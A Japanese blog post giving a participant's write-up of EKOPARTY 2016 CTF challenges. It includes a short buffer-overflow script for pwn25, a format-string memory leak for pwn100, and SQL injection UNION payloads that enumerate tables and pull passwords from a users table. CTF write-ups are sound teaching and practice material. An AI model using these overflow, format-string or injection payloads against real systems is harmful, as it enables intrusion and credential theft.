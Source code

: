 ```yaml
---
layout: post
title: EKOPARTY 2016 writeup
---
```


CTF wo Suruで参加しました. 850ptsで, 110/721位でした.

時間なくてあまり参加出来なくて, 頭付いてないので問題も全然解けなかったです.

学園祭の準備とかダンス部とかで, ここ1ヶ月くらい何もしてなくて何もしてないです.

11/12にサイバー甲子園ってのあるんですけど, 何もしなさすぎて最下位になりそう.

はい, writeup書いていきます.

web25, web50, pwn25, pwn100しか解いてないです.

web100途中まで解いて終わりです.

## web25

robots.txt

`EKO{robot_is_following_us}`


## web50

```
$ curl -I ctf.ekoparty.org
HTTP/1.1 301 Moved Permanently
Server: EKO{this_is_my_great_server}
Date: Thu, 27 Oct 2016 05:51:15 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: https://ctf.ekoparty.org/
```

`EKO{this_is_my_great_server}`


## Pwn 25

```python=
from No___Op import *

target = "9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site:55000"

c = Pwning( target ) 

payload  = "A" * 24
payload += "\xf3"

c.write(payload)

c.dbg_shell()
```

`EKO{Welcome_to_pwning_challs_2k16}`

## Pwn 100

```bash
$  nc 9a958a70ea8697789e52027dc12d7fe98cad7833.ctf.site 35000
Welcome to my first service
Please input the secret key: AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x[
Invalid key: AAAA 0 a 0 0 0 a 0 454b4f7b 4c614269 67426566 3072647d 0 41414141 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025 78202578 20257820 25782025[

Please input the secret key: 
Invalid key: 

Please input the secret key: ^C
[tsun@host-163-44-172-213 tmp]$ python
Python 2.6.6 (r266:84292, Aug 18 2016, 15:13:37) 
[GCC 4.4.7 20120313 (Red Hat 4.4.7-17)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> ''.join('454b4f7b 4c614269 67426566 3072647d'.split()).decode('hex')
```

`EKO{LaBigBef0rd}`


## web 100(解けなかった)

`1' union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema != 'information_schema';#`

から `users` というテーブルが見つかる

`1' union select 1,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 0x7573657273;#`

`id,username,password` というカラム

`1' union select 1,group_concat(password) from users;#`


* * *

ダメです！ｗ
